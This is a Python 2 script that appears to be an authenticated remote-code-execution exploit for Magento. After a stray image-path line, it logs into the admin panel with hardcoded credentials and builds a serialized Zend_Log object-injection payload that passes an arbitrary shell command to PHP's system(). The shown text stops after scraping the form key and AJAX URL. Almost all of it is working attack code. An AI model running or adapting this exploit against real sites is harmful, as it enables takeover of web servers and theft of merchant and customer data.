 ```python
#!/usr/bin/python

from hashlib import md5
import sys
import re
import base64
import mechanize


def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
```